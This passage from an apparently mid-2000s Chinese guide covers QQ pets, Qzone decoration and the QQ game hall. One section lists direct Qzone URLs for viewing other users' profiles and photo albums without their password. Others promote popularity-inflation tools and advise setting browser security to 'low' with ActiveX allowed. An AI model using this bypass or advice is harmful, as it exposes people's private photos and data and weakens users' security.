- 6. Q宠离婚必须到宠物大教堂与山羊牧师对话，选择“我要离婚”，向配偶发送离婚请求，在双方同意的情况下，山羊牧师将宣布你们婚姻解除。
- 7. 当您的Q宠的爱情值比配偶爱情值高1000时，根据宠物王国爱情法，可以宣布您的Q宠与其配偶已经感情破裂，婚姻可单方面解除。
- 8. 离婚后，离婚双方都会受到惩罚，爱情值将被清除，双方的魅力值都会降低百分之五，破碎的婚姻还会让见证你们爱情的婚戒消失。

## 六、结婚后宠物生蛋介绍

结婚后，过一定的时间，宠物就可以通过生蛋培育下一代了，不过只有10次机会。

| 获取次数 | 离下次申请蛋的时间（小时） |
|---|---|
| 1 | 100（第一次以结婚时开始计时） |
| 2 | 150 |
| 3 | 180 |
| 4 | 300 |
| 5 | 350 |
| 6 | 500 |
| 7 | 500 |
| 8 | 500 |
| 9 | 500 |
| 10 | 500 |

注意，上面所说的时间是自然时间，不是在线时间。即只要结婚后100个自然小时，就可以由QMM到教堂点击山羊生蛋了。

- 1. 挚爱金戒是最合算的戒指，199元宝=1999爱情值，最贵的是海洋之心钻戒，600元宝=3000爱情值。
- 2. 爱情值的高低和结婚后生蛋个数的详细数据如下：

## 关于生蛋的数量

两夫妻加起来现在只有2~6只，数据还没出来，就知道TX已经在搞计划生育了！因为服务器承受不了！

购买戒指的时候有初始爱情值，宠物夫妻双方爱情值的计算等于：戒指所带爱情值 + （当前成长值 - 结婚时成长值）×10

注：结婚戒指只有在结婚时使用，平时是不能用的；宠物蛋获得的个数：与父母当中爱情值高的一方有关，爱情值高则获取的宠物蛋个数多；培育出来的蛋和父母的属性有关，父母属性之和越高，培育出来的宠物蛋属性就高；爱情值只与成长值有关（具体计算方法见公式）。

## 七、生病看病

- 1. Q宠生病一定要看病开处方，因网上的宠物包治百病小秘方不一定准确（我吃过亏）。
- 2. Q宠生病，又饥饿又痒，一定要先看病。如先喂养再看病会减少清洁值和饥饿值。
- 3. 当你的元宝少于20个的时候，开处方的$50是免费的！只要花买药钱！
- 4. 当自己没有元宝看病的时候，可以先让自己的死掉，再使用TX送的还魂丹复活，复活后再打工赚钱！
- 5. 还魂丹必须在宠物死后使用，在病危的时候使用，宠物即死！
- 6. 有时候用了第一次药之后，系统卡，还没有更新宠物的状态。假如你按照医院的处方用过药之后宠物还是生病状态的话，最好是退出宠物，再进一次，一般来说宠物已经是健康状态！

## 八、宠物秀

你的小QC是会很多秀逗你开心的，点击QC身体不同部位或者用鼠标在它身上不停地晃动，它就会有不同的动作。这个你自己去琢磨吧！发现是种乐趣哦！

- 1. QGG有一自由落体特技，是用鼠标点住它的身体不要动3到5秒，它就会弯着腰被你拎起来。现在你不要松手，把它拖到屏幕上方然后松开鼠标，它就会落下去然后……你自己看，我说了就不新鲜了。
- 2. 把QGG放屏幕的左边，点左脚它就会撞到屏幕边上的，很可爱的。
- 3. QC被不小心拖动到屏幕外边去，小家伙就会藏在屏幕外面只露出眼睛，很可爱。怎么让它回来呢？别急，只要双击一下右下角的Q宠小图标或者直接拖，Q宠就会重新回到你的桌面上。
- 4. 在群消息提醒中设置了自己感兴趣的话题之后，一旦群里面有人提到这些话题，QQ就会拍打你的桌面，提醒你不要错过。只要在话题中设置一个“任何话”，QQ就会乖乖地把群消息一个不落地都提醒给你。
- 5. Q宠逗乐之动作：Q宠在心情不同时有各种动作。  
  - （1）心情全满时：亲吻、滑板、变身变魔术、蹦弹道、呼啦圈、听音乐，点击手脚眼睛产生的动作等等；  
  - （2）心情不满时：钓鱼、睡觉、放屁等等，点击手脚眼睛产生的动作等。
- 6. 鼠标右键点击Q宠身体喂食、洗澡也有不同动作。

- 1. 宠物之星：0～40级都不打工，保持心情全满冲级！
- 2. 武力之星：打工选武力；食物选鱼形曲奇饼$60（饥饿+1080，武力+15）；洗澡选歪歪电吹风$30（清洁+360，武力+8）。
- 3. 智慧之星：0～9级打工选武力，10级后选智慧；食物选美年达$50（饥饿+900，武力+15）；洗澡选植物精华露$40（清洁+720，智慧+8）。
- 4. 魅力之星：0～9级打工选武力，10～14级选智慧，15级后选魅力；食物选香瓜果冻$60（饥饿+1080，魅力+15）；洗澡选闪亮滴眼液$40（清洁+720，魅力+10）。
- 5. 爱情榜：0～40级都不打工，保持心情全满冲级！一到15级就马上用海洋之心结戒$600（爱情值+3000）结婚，到死都不离婚！

注：15级后可以使用各种不同的玩具来增加宠物的各种属性！


## 九、冲击排行榜（图5）

从0级开始打工，打工间隔为0分钟！洗澡在2819时洗，>2819时洗澡宠物系统会不让洗的！


## Q宠伴侣


新版本的QQ2006 Beta2中的QQ宠物新增了一个宠物伴侣功能，它可以让你的宠物到你的好友那里做客。

首先当然要启动宠物了，然后点击聊天面板中娱乐选项的宠物伴侣（图6），对方就会接到宠物伴侣的请求，选择接受后你的宠物就跑到对方的桌面（图7）。对方把鼠标放在宠物身上，旁边显示三个按钮，分别是爱抚、欺负和喂食（图8）。当你欺负或爱抚它时就会出现许多搞笑的表情，如图9～15。而在主人这边也会有相应的表情，如图16、17。有四种零食可以给宠物吃，但是都不便宜，如图18。吃零食也有好玩的表情，如图19～22。最后宠物回到主人的身边，如图23。


### 3.4 替代保姆照顾你的Q宠

腾讯的QQ宠物已经开放很长时间了，不知道你有没有领养一只属于自己的宠物，可能有人的宠物已经“百子千孙”了。我的宠物是在前几天领养的，现在都达到九级了，就快能结婚了。你是不是在奇怪，我的宠物怎么成长得这么快？让我慢慢道来。

我们在喂养Q宠时常常忘记喂食、洗澡或打工，直到系统提示时才想起来。这样的话宠物怎么能快快长大，于是我决定给Q宠雇个保姆照顾她（利用软件自动喂养宠物），“Q宠保姆”正是这样一个优秀的软件。

首先，我们打开程序，在确定你的宠物已经打开的情况下点击“刷新”按钮，现在我的宠物就在挂机列表中了。从图2.4中可以看到我的宠物详细信息都显示在程序的右边。在右下可以修改状态，直接输入数值或者拖动下面的滑条后点击“修改”就可以了，如图2.4。


从界面上可以看出，“Q宠保姆”能同时照顾多个宠物，我就以我的宠物为例向你详细介绍它的使用方法。

我们先别急着点“开始”，先来配置一下参数。从图2.5中我们能看到关于喂养宠物的各个参数，只有把参数设置好了，宠物才能健康、快速地成长。

### 饥饿值和清洁值

如果你不懂里面的参数，可以默认设置；“使用玩具”时的饥饿值可以根据自身情况调节。

### 打工设置

“自动打工”当然要选上了；“打工时间”我建议选择30分钟；“打工种类”就是打工时选择增长你所选属性的工作，如果你不是特别需要增长什么属性就选择“智能转职”。右上角的“温馨提示”告诉我们“智能转职”的重要性。打工疲劳后可以根据你的财务情况（每天只能打工八小时，宠物也是需要休息的。不打工的情况下没有收入，你不是大款就不要搞赤字了。）选择是继续生长还是暂停生长。


### 购物选项

对于食物的选择，我们先来看看宠物各个属性的作用。武力：让宠物与你的表情多起来，它自己无聊做各种表情的频率高起来。智力：使得宠物猜拳胜率大大提高，还有很小量的帮助成长。魅力：提高抗病能力，不让病魔轻易入身。

依照上面的解释，我们要不时地调整宠物的营养均衡，可不能偏食。以前我的宠物一直吃长武力的食物，现在改吃“仁和可力克”长智力。选择增加多少饥饿值的食品，要配合“小于多少饥饿值就自动喂食”的数值。有人经常选择+1080饱饱度的食物为了省事，就会把宠物喂撑着。


它的下面还有一个“日志”选项，点击后就能看到你的宠物的生长日志了，如图2.6。

Q宠保姆的“选项”菜单里还有一些别的功能，让我们来看看，如图2.7。

Q宠保姆的老板键是Ctrl+F12，对于有需要的朋友可要好好利用。代理服务器的设置如图2.8，填上IP和端口，点确定就OK了。


“物品不足时购物”是默认选中的，这个没什么解释的，除非你能忍出来。如果你有Q币的话就选上“允许使用Q币购物”，系统在你的元宝不足时会使用Q币。现在我们设置完成了，可以开始用它喂养宠物了。

我们回到程序主界面，点击“开始”，Q宠保姆就能为你照顾宠物了。

有了Q宠保姆后，我们宠物就能稳定成长，生了蛋后别忘了送我一个。

## 3.5 请个管家管理你的Q宠

QQ宠物管家相较Q宠保姆来说多了广告和流氓插件，但它的功能比Q宠保姆丰富多了，像定时启动宠物、婚介功能等。下面来看看管家的使用方法。

打开程序，软件界面如图29。启动QQ宠物后，点一下“刷新”，你的宠物就会出现在列表中。先别忙点击开始，还要根据自己的情况设置程序。在图29中我们能看到下面是设置喂养宠物的一些参数，主要是对饥饿值和清洁值的控制，还有针对自己的网络状况调整网络延迟。

打工的设置中，可以自己选择工种，也可以让管家智能选择，而且可以对工作所加属性进行筛选。打工次数也可以限制并记录到文件中（图30）。


自动购物选择你所要增加的属性的食品，日用品选肥皂或浴巾就行了。这里可要设置好，不然让管家买东西把元宝都花没了，到时就麻烦了（图31）。仓库中显示的是食品和日用品的清单（图32）。在医院选项中勾选上“自动看病”，还魂丹在得到宠物时就赠送了一颗（图33）。

然后刷新QQ号码，再根据自己QQ面板中宠物图标所在的位置选择。这个启动功能可以一次启动多个宠物（图35）。“关机”可以选择定时关机，也可以在宠物停止成长后或不能再打工了关机，这对挂机养Q宠的朋友可是福音（图36）。


图31


图36


图32

Q宠管家能设置SOCKS5代理或HTTP代理（图37）。“婚介”功能是通过 http://www.qqle.net/ 网站发布征婚信息，还可以求婚。先要注册一个帐号（图38），登录后点击发布，你的Q宠信息自动就会发布在征婚的布告栏，当然你要到达15级（图39）。日志记录的是程序运行的详细记录，我们能查看Q宠的每一步活动（图40）。


图33

强制退出是很有用的功能，比如在宠物不能再打工时退出，可以保持我们的元宝有富余。还可以限制元宝/Q币的花费，到达设置的上限时自动退出。定时退出需要设置时间，勾选“激活”（图34）。


图37


图34


图38


图39


图35

“启动”选项可以定时启动QQ宠物，先设置时间，然后刷新QQ号码，再根据自己QQ面板中宠物图标所在的位置选择。


图40

QQ宠物管家就介绍到这里，保姆和管家的选择就看大家的爱好了。

## 第四章 Qzone 全攻略


Qzone是一个专属于你自己的个性空间，是一种为新新人类提供的全新网络生活方式。拥有Qzone就可以拥有网络日志、相册、音乐盒、互动等专业动态功能，还可以合成喜欢的个性大头贴，并可使用皮肤、漂浮物、挂件等装饰物品，自定义空间风格，让你的Qzone更炫、更In，书写心情，释放精彩（图1）。

### 4.1 开通Qzone

想开通Qzone需要你的QQ好友推荐你，让他在Qzone主页登录，点击推荐好友开通（图2），在图3的界面中输入你的QQ号码推荐你。然后你登录Qzone时即可开通；当他推荐满5个好友后，还可获得Qzone装饰品或2Q币购物券等奖励。


### 4.2 记日志即可保留个性签名


QQ的个性签名常常更换。在Qzone中可以保存已有个性签名：进入管理页面，点击“个人资料管理”，在“日志设置”处选择“在日志心路历程中保存QQ个性签名”。


| 默认专题 | 编号 | 歌曲名 | 播放 |
|---|---|---|---|
| 列表项 | 1 | 兔来千寻（示意） | 3 |

（含上移/下移等操作按钮）

空间就可以将你的个性签名自动保存在“个性签名”一栏中了（图4）。

行排序及设置排行趋势；访客还可以对劲歌榜进行投票和评论。

### 在QQ空间里播放音乐

### 空间相册

想在空间中播放背景音乐，当然要先有个播放器了，在装扮空间的商城中挑选一个漂亮的播放器（没钱的人就用免费的吧）。打开音乐收藏，可以从QQ音乐库里选歌，还可以选择添加网络音乐（图5）。网络音乐的添加按照图6填写，点击提交就成功添了一首歌曲。然后设置播放列表，添加你收藏的歌曲（图7）。音乐收藏中最多可以收藏150个原创曲目，创建十个音乐专题。音乐收藏的曲目可以根据星级进行排序，星级高的会排在前面；若调整曲目顺序，可以直接修改星级。在其它QQ空间的音乐收藏中听到好的歌曲，想自己收藏，点击星星按钮即可立即收藏到自己音乐盒的音乐收藏中。劲歌榜栏目可以选择音乐收藏中的歌曲作为打榜歌曲，并可对每首歌曲进行排序及设置排行趋势；访客还可以对劲歌榜进行投票和评论。

空间中有个相册功能可以上传图片，查看模式有两种：浏览式和评论式（图8、9）。

相册中的批量上传功能十分适合一次传多张图片，先下载上传控件并安装（图10），点击批量上传，在左边选择图片目录，右边选择要上传的图片（图11）。相册支持上传gif、jpg、png格式的图片。

### 收藏好友QQ空间（图12）

把别人的Qzone添加到收藏中，当好友空间有更新时，就可以收到更新提醒了。在浏览别人的空间时，点击右上角的“添加关注”，填写收藏说明，点击提交（图13）。

查看自己的收藏中已经有了刚才添加的空间，可以设置是否接受更新提醒（图14）。

收藏夹最多可以收藏100个好友。还有一种方法，就是把你关注的好友添加为密友。密友是你的QQ空间好友，由QQ中导入（图15）。


### 4.6 控制空间访问权限

自己的空间如果不想让外人看到，可以给它加一把锁。通过设置在管理中的进入权限管理和回复权限管理，能让空间公开、只有密友访问或密码访问（图16、17）。空间中也有黑名单功能，添加为黑名单的网友将不能在空间进行留言（图18）。

### 4.7 玩转大头贴

个人形象处设置大头贴，可以使用本地或相册中的图片，也可以用摄像头照大头贴。腾讯还为大头贴提供背景，当然不是免费的，而且还必须设置背景。点击个人资料里的大头贴（图19），界面转到装扮空间的设置大头贴处（图20）。在“照片合成”标签下，可以从“本地相册”选择照片来进行大头贴的制作（图21），或从“QQ空间的相册”选择照片来制作。选择好喜欢的照片后，在预览框中查看，通过方向键来调整照片位置（如果不满意，你可以点击“重设”，将照片恢复至原始状态）。对上传照片可以进行“高级”处理（图22）或添加文字（图23）。

调整好电脑摄像头，点击大头贴上“摄像头拍照”标签。


通过方向键来调整头像在预览框中的位置（如果不满意，你可点击“重设”按钮，将图像初始化），然后在右边大头贴商城选一个你喜欢的背景，点击“拍照”或按“空格键”，得到喜爱的大头贴。也可以点击“自动拍照”，让摄像头在5秒后自动照下（图24）。

想打印大头贴的话，点击“打印”，进入编辑页面（图25），通过单击预览框，再点击右边想要打印的大头贴，就可以将想打印的大头贴放到预览框中了；还可以选择横版、打印方式、打印份数等。点击“打印”完成操作。


### 空间美化

你没有看错，空间中的确可以养花，而且你还可以成为牛×花匠。一开始只能从入门养起，成为花匠学徒，此时你只能领养一级植物。当一级植物结出人参果后，才能成为高级花匠，这时才能领养二级植物……以此类推。当你养到五级植物后，就已经是花匠家族中耀眼的明星了！进入装扮空间，在养植物目录下，可以免费领养你喜欢的植物（图26、27）。

植物拥有四项属性：阳光、爱心、雨露、营养（图28）。

- 1. 阳光指数：每1个访客（不包括未登录的访客）给这项指数增加1分，每天增加分数上限为8分。
- 2. 爱心指数：自己每发表一篇日志、上传一张照片、音乐收藏中增加一个音乐专题、添加偶像等，都会增加该指数。
- 3. 雨露指数：网络日志与偶像资讯每增加一个非自己的回复就增加1分，每天增加分数上限为8分。
- 4. 营养指数：每在个人空间商城花费1元钱，给当前植物的这一指数增加8分，不足一元部分累积（手机消费除外），植物营养指数将在24小时内为你加上；黄钻包月用户每月月初（10号前）固定增加100分；当月开通当月关闭，将不增加黄钻营养指数；当月开通黄钻资格的用户，当月不增加黄钻营养指数，从下月开始增加100分营养指数。

积分无满分，但以200分为一个阶段，当各个指数都达到200的时候，又会开始增加，其中某一项到400则停止，等其它积分涨到400再继续增长，以此类推。

当你的花生长到第四阶段（即指数总和大于600），就可能收到神秘礼物哦！每项属性指数都加满200分，才可以摘到人参果，升级花匠级别。

如果花藤指数一项未满200，更换植物不影响你的花藤指数；如果你的花藤指数各项均大于等于200，更换……

```xml
<type>5</type>
<visittime>0</visittime>
<answertime>45</answertime>
<title><![CDATA[当心来自“QQ”好友的诈骗...]]></title>
<titleclass><![CDATA[...]]></titleclass>
<diaryid>101005</diaryid>
<url><![CDATA[/client/blog/blog_one.htm?...]]></url>
<lastadds>
  <date><![CDATA[06月05日]]></date>
  <pic>0</pic>
  <time><![CDATA[17时06分]]></time>
</lastadds>
...
```

```xml
<?xml version="1.0" encoding="GB2312"?>
<user>
  <uin><![CDATA[777110]]></uin>
  <nick><![CDATA[...]]></nick>
  <spacename><![CDATA[...]]></spacename>
</user>
```

```xml
<?xml version="1.0" encoding="gb2312"?>
<data>
  <left>
    <album albumnum="2" listnum="1" picnum="4" pagenum="1" owner="777110" ownername="..." />
    <album name="..." al_total="1" privacy="1" handset="0" />
    <album name="贴图相册" al_total="3" privacy="1" handset="2" />
  </left>
  <album id="..." name="..." pre="http://s2.photo.qq.com/..." ...>
    <pic id="..." name="..." desc="..." url="http://photoimg.qq.com/..." ... />
    ...
  </album>
</data>
```

换植物时（如果更换高一级别植物，植物各项指数均减少200），系统将自动为你摘除人参果。如果花藤已经结出人参果，但神秘礼物未采摘，先获取神秘礼物，再采摘人参果，否则将视为放弃神秘礼物。

- 1级植物：结出至少4个一级人参果
- 2级植物：结出至少5个一级至二级人参果
- 3级植物：结出至少6个一级至三级人参果
- 4级植物：结出至少7个一级至四级人参果
- 5级植物：结出至少8个一级至五级人参果


## 绕过QQ空间密码验证

最早可以直接在浏览器上访问空间，不需要密码。现在这种方法当然不行了，而且也没有能直接访问的办法，但是可以不需要密码查看用户信息和相册。

- 直接访问 `http://q-zone.qq.com/fcg-bin/cgi_access_self.fcg?uin=********&type=?`，其中 `********` 代表被访问QQ号，`?` 的数字为 0、1、2、3、4……，以访问到用户的各种相关数据（图29）。
- 直接访问 `http://q-zone.qq.com/cgi-bin/user/cgi_spaceinfo.xml?uin=********`，其中 `********` 代表被访问QQ号，可以访问到用户信息（图30）。
- 直接访问 `http://qz-photo.qq.com/cgi-bin/qzone/cgi_album_xml?uin=********&rf=?`，其中 `********` 代表被访问QQ号，`?` 代表页数，可以直接访问用户相册数据。将对应链接地址复制到IE浏览器地址栏，即可看到用户上传的图像（图31、32）。

## 如何把QQ空间自动转换成跳转到Flash动画空间

首先找一个放Flash的空间，国内国外都有许多免费空间，也可以上传到那些可以上传附件的网站。上传好Flash文件后，点击你空间右上角的“自定义”，然后点击右边的“新建模板”（图33）。在新建模板页面交互窗口里，填写模板名称，模板类型选择Flash动画模板，输入验证码点击提交（图34）。在模板内容的对话框中填写Flash的链接地址，选择自动播放，不要模块边框（图35）。如果你直接在装扮空间中购买欢迎动画，就简单许多，当然也是要收Q币的（图36、37）。


## 如何刷QQ空间人气


QQ空间的人气值关系到空间中养的花，还有空间排名。现在刷人气可以使用软件，也有的网站提供刷人气的页面供大家使用。首先介绍的是Web页面刷空间的方法，上百度搜索一个提供刷人气的网站，这里我给大家推荐一个网站：http://www.tt86.com/。登录网站如图38。这个网站有个宣传措施，你每刷5点系统自动奖励介绍人1点，我们可以自己介绍自己，能多刷一点。在下面链接中填上自己的号码：http://www.tt86.com/qq.asp?js=介绍人的QQ号码，在浏览器中访问链接，再加上要刷的QQ空间，点击下一步，如图39。在下个页面中选择启动系统，如图40。接着弹出一个页面，系统会自动选择最快的服务器。选择好后，系统就开始刷人气，每10秒刷一次，如图41。页面下方有个防掉线功能，可以设定间隔多少分钟检测一次，比如我选择5分钟，点下一步。再选择启动防掉线功能，如图42、43。刷人气的软件有好多种，使用都是大同小异。我们以TT86 C-QZone V2.03为例介绍。


……软件界面如图4-4，填写上QQ号，点击开始就能刷人气了。每6秒刷一次，注册VIP是每一秒刷一次。工具中还有查询的功能，可以查看空间的情况，其实就是登录空间的那个页面（图4-5）。

### 4.12 在空间中显示我的心情

腾讯新发布的QQ空间3.1版本增加了“心情”功能，用“文字+表情”的方式，丰富展现用户的心情，并与QQ个性签名结合，当你在QQ上更新签名后，在QQ空间“心情”中也会有所更新。那么怎么显示“心情”呢？首先，点击“自定义”→“模板管理”，选择“主人心情”，点击保存（图4-6）。然后点击“心情面板”中的“写心情”（图4-7），在如图4-8中可以用表情和文字表达你的心情。最后点击提交，心情就设置成功（图4-9）。

### 4.13 无法进入空间的解决方法

- 登录 qzone.qq.com，然后选择“安全模式”进入空间；
- 清除网络浏览器缓存，在浏览器菜单里选择“工具→Internet选项→删除Cookies和删除文件”，然后再确定；
- 打开一个好友的空间，点击“装扮自己的空间”，点开就进入了自己的空间，如果仍打不开，请多试几次；
- 点击IE浏览器中的“工具”，选择“Internet选项”，进入“安全”页面，点击“自定义级别”，将你的安全设置设为“低”；
- 清空一下IE浏览器的Cookies文件，在IE浏览器中设置“禁止自动脚本更新”，并不要选择“禁止运行ActiveX控件”，然后再尝试操作（请使用IE6.0以上版本）；
- 查看Flash版本的方法：可以让用户打开Qzone，在出现小精灵的loading时，对着小精灵的loading点击右键，查看“关于Macromedia Flash Player”那一项；
- 是否是8，如果是Macromedia Flash Player 7，建议你安装Flash 8；
- 建议你到 www.macromedia.com 去下载，如果仍然无法安装Flash 8，建议先卸载Flash 7后，再重新安装Flash 8。卸载方法：打开IE的Internet选项→设置→查看对象，将Shockwave Flash Object删除即可。


## 第四章 Qzone全攻略


### 4.14 在空间加入视频

在空间中点击“自定义”→“新建模板”，名字随便输入，“模板类型”选择“视频模块”（图50）。在“视频模板”中加入视频文件的链接，“视频动画尺寸”可以不用填写，系统会自动选择尺寸，其他选择默认就行了，点击提交，添加成功（图51、52）。


### 4.15 如何设置空间背景

第一步当然是找一张漂亮的图片，然后新建一个模板，名称无所谓，模板类型一定要选择“大图模板”（图53）。在“大图模板”设置中填写图片链接，“图片尺寸”高写470，宽写740，这两个数字根据自己的空间调整（图54）。设置完成后，图片显示在空间中，但是图片把别的模块覆盖住了。别着急，点击“自定义”的“模块管理”，重新选择一下你原来的模块，你会发现图片已经在最下面了（图55、56），现在这个图片已经成为空间的背景了。


### 4.16 QQ空间代码的使用方法

首先要说明的是这里所说的代码不是以前制作空间用的网页代码，而是腾讯自己制作的模板“代号”。现在虽然腾讯空间升级到了3.1，但有许多代码还是可以使用的。代码的实现方法是添加新模板，在模板中添加代码，激活你填写代码的相应模板。

新建一个“图文模板”，名称处填写：`@LF(fmbl)`，一定要写这个，不能随便命名（图57）。在“评论内容”处写上：`@API_zIndex(1)@API_Alpha(85)`，点击提交（图58）。保存修改后，重新进入空间你会发现你的空间已经发生了翻天覆地的变化（图59、60）。

这种制作方法比较适合嫌麻烦的朋友，不用逐项设置，但会丧失个性；各有利弊。下面提供几个模板代码：

- **刘德华（图61）**  
  `@LF(ldh)`（加在新建模板的名称处）  
  `@API_zIndex(1)`、`@API_Alpha(70)`（这两个一块加在评论处）
- **我不是你想要的女人（图62）**  
  `@LF(wbsnxydnr)`（加在新建模板的名称处）  
  `@API_zIndex(1)`、`@API_Alpha(70)`（这两个一块加在评论处）
- **血色的记忆（图63）**  
  `@LF(king)`（加在新建模板的名称处）  
  `@API_zIndex(1)`、`@API_Alpha(70)`（这两个一块加在评论处）
- **连思念都变成了习惯（图64、65）**  
  `@LF(dongman)`（加在新建模板的名称处）  
  `@API_zIndex(1)`、`@API_Alpha(70)`（这两个一块加在评论处）
- **血玫瑰（图66）**  
  `@LF(lwb)`（加在新建模板的名称处）  
  `@API_zIndex(1)`、`@API_Alpha(85)`（这两个一块加在评论处）


### 4.17 日志中插入透明Flash

透明Flash插入到日志中是作为背景存在的，想在日志中添加就点击正文上面的“插入Flash”按钮（图67），在跳出的窗口中输入透明Flash地址，设置自定义尺寸800×800，勾选“设置为透明背景”，点击提交（图68）。

下面是一些透明背景的Flash地址：

- 枫叶飘飘  http://www.2000y.net/100006/uploadpic/flash/37.swf
- 紫花飞扬  http://www.2000y.net/100006/uploadpic/flash/47.swf
- 风卷~叶飞  http://www.2000y.net/100006/uploadpic/flash/53.swf
- 流星雨  http://www.2000y.net/100006/uploadpic/flash/54.swf
- 萤火虫般的花朵  http://www.2000y.net/100006/uploadpic/flash/56.swf
- 白鸽飞过  http://www.2000y.net/100006/uploadpic/flash/64.swf
- 秋天来了落叶飘  http://www.2000y.net/100006/uploadpic/flash/19.swf
- 那红烟花  http://www.2000y.net/100006/uploadpic/flash/83.swf
- 冰花  http://www.2000y.net/100006/uploadpic/flash/99.swf
- 飞舞的紫花  http://www.2000y.net/100006/uploadpic/flash/34.swf
- 雪花飘  http://www.2000y.net/100006/uploadpic/flash/26.swf
- 天上掉馅饼  http://www.2000y.net/100006/uploadpic/flash/38.swf
- 两只蝴蝶  http://www.2000y.net/100006/uploadpic/flash/09.swf
- 扶摇直上的心  http://www.2000y.net/100006/uploadpic/flash/18.swf
- 上升的蓝泡泡  http://www.2000y.net/100006/uploadpic/flash/68.swf
- 上升的水泡泡  http://www.2000y.net/100006/uploadpic/flash/67.swf
- 渗出的水滴  http://www.2000y.net/100006/uploadpic/flash/30.swf
- 飘下的雨珠  http://www.2000y.net/100006/uploadpic/flash/01.swf
- 满天星光  http://www.2000y.net/100006/uploadpic/flash/04.swf
- 热情的飞吻  http://www.2000y.net/100006/uploadpic/flash/51.swf
- 阳光的光环  http://www.2000y.net/100006/uploadpic/flash/43.swf
- 蜻蜓飞飞  http://www.2000y.net/100006/uploadpic/flash/36.swf
- 长发飘飘的女孩  http://www.2000y.net/100006/uploadpic/flash/46.swf
- 雨中的涟漪  http://www.2000y.net/100006/uploadpic/flash/06.swf
- 悠哉的三只金鱼  http://www.2000y.net/100006/uploadpic/flash/15.swf
- 聚散依依之星光  http://www.2000y.net/100006/uploadpic/flash/05.swf
- 雨中的青蛙  http://www.2000y.net/100006/uploadpic/flash/08.swf

## 新版游戏大厅介绍


腾讯最近推出了新版游戏大厅，最引人注目的是新增的角色功能和家族功能。角色功能使原本单一的游戏大厅增添了新的乐趣，家族功能使游戏变得更有可玩性。QQ游戏角色系统是全新的 in-game 角色系统，是玩家在QQ游戏中形象的化身。除了具有和传统avatar系统的更换服饰、展现个性的特性外，还具有在游戏中主动播放动画、表达情绪，根据游戏进程自动触发各种动态交互动画等特性。QQ游戏角色系统的形象只在QQ游戏平台的游戏中显示，其相关的道具也只能在QQ游戏平台的游戏中使用。

下载最新版游戏大厅，进入大厅后你会发现右边多了三款游戏的角色版，只有下载相应游戏的角色版才能使用角色系统（图1）。这个角色系统和QQ秀类似，在游戏商城中有卖衣服、表情和技能（图2）。你的角色会在等待游戏和进行游戏时出现（图3、图4）。角色系统表情类物品在游戏中表现为一小段简短动画，作用于玩家自己的形象。在游戏中，可以选择播放表情动画，帮助表达情绪，其他玩家都可以看见你的表情动画。系统提供了默认的多套表情，并会在进场、离场、胜利、失败等情况下自动播放默认表情动画，为游戏过程增添互动性与趣味性（图5）。


好玩的元素进去。你已经购买的表情，可以装配到相应的游戏进程，这样游戏中播放表情动画时，则会播放你自己配置的表情。把你的表情放到自己的装备框里，想什么时候用就什么时候用。就如同我们网络游戏里的快捷操作栏一样，使用起来是极其方便的（图5）！


QQ游戏角色系统还有交互功能，就是角色技能。可以实现玩家间的交互，玩家可以对其他玩家施加一定的动作，动作发起方的角色会显示该动作的形象，动作承受方的角色也会出现相关联的形象。如玩家可以让自己的角色挥棒攻击其他玩家，其他玩家的角色被攻击后会满脸是包的：）在游戏中，点击魔法按钮，会弹出表情和技能面板，面板上会显示你当前拥有的表情，点击想要使用的表情，则会立即播放表情动画。操作既简单又好玩哦！

QQ游戏玩家都喜欢自己的游戏家族，都希望自己的家族能够与众不同，当然对自己家族的族徽特别重视了。QQ游戏角色系统还为所有的家族朋友设定了“族光闪耀”活动，可以让你在游戏中彰显自己家族的独特魅力！


网络游戏让很多人沉醉其中，网络游戏最大的特点就是等级和装备的不同。等级越高的玩家，装备就越好，相对而言攻击和防御能力也就有所提高。QQ游戏角色系统也为QQ游戏玩家提供了“笑傲江湖”活动。随着玩家角色通过游戏积分等多种途径获得等级的提高，玩家的角色拥有的功能（例如攻击、防御等技能属性）以及套装表现会发生相应的变化。

QQ家族是一群具有相同兴趣爱好的玩家自发组织的网上虚拟团体。每一个QQ家族拥有自己的家族名称、家族口号、家族规章等等，可以在网上组织各种各样的比赛和活动。

- QQ家族由族长、长老、使者、护法、堂主、侍卫、教头、弟子、门徒和家族成员组成。
- **族长**：一名。家族的创建人自动成为第一任族长，拥有家族最高权限，负责管理家族的日常事务，可以任命长老等所有职务，可以对不同职务给予不同权限。
- **长老**：若干名。由族长任命，协助族长管理家族事务，拥有一定管理权限。
- **使者、护法、堂主、侍卫、教头、弟子、门徒**：若干名，协助族长和长老管理家族事务。
- **族务**：具有个性化的职位，权限由族长任命。
- **家族成员**：除族长和长老以外的家族成员，可以参与家族各项活动，加入家族需要经过审批，但可以自由退出家族。

如果你想加入或创建家族，首先在 http://jz.qq.com 家族主页登录。玩家不可以同时加入两个或两个以上同一类型的游戏家族，但是可以加入多个不同类型的游戏家族。例如，你现在已经是一个升级游戏家族成员，但你没有加入过任何连连看游戏家族，这时你就不能再加入其他升级类的游戏家族了，但可以加入连连看游戏家族。点击页面上的“加入家族”，然后在下面的家族列表中选择一个加入（图6）。或者在每个家族的页面有加入的选项（图7）。

族长或长老对你提交的申请进行审核，如果他们认为你符合加入家族的资格，他们就会批准你的申请。这时你就正式成为了该家族的成员，系统会给出相应的提示。如果你的申请被拒绝，系统会给你相应的通知并且把申请费用退回到你的个人账户上。如果你的申请超过3个月没有被审核，系统也会自动取消申请并把申请费用退回到你的个人账户上。

在如图8的页面中输入创建家族的一些必要信息，当提交申请后后台工作人员会按照《QQ家族公约》等相关规定进行审核，审核通过后你的家族就正式成立了！届时系统会通过家族网页和QQ弹出消息第一时间通知你。如果你的家族不符合要求，系统也会通知你并且将创建费用退回到你的个人账户上。

创建家族时可同时申请创建一个固定群，一经申请即时开通，家族审核不通过时固定群可继续使用；如果你原来已经拥有了一个群，可以不申请，输入原有QQ群号码即可。

家族间自行联系和约定举行的线上比赛活动，可由任一方的族长或长老通过家族管理页面的“预定房间”功能预订专用的游戏比赛房间进行比赛。在专用比赛房间里面，预订房间的家族可以只让指定的人进入比赛房间、设置比赛时间、比赛房间名称、比赛负责人、裁判、选手、观众名单等信息，给不同的人分配不同的权限，以保障比赛顺利进行。

游戏房间除了有不同类型游戏以外，还存在同一类型游戏包含不同规则的游戏房间（例如，五子棋游戏分有禁手和无禁手两种不同规则），因此预订者务必选择正确的游戏类型和规则的比赛房间，一经审核通过不能更改。


### 5.2 各种QQ游戏的多开方法

### 一、QQ游戏大厅的多开方法

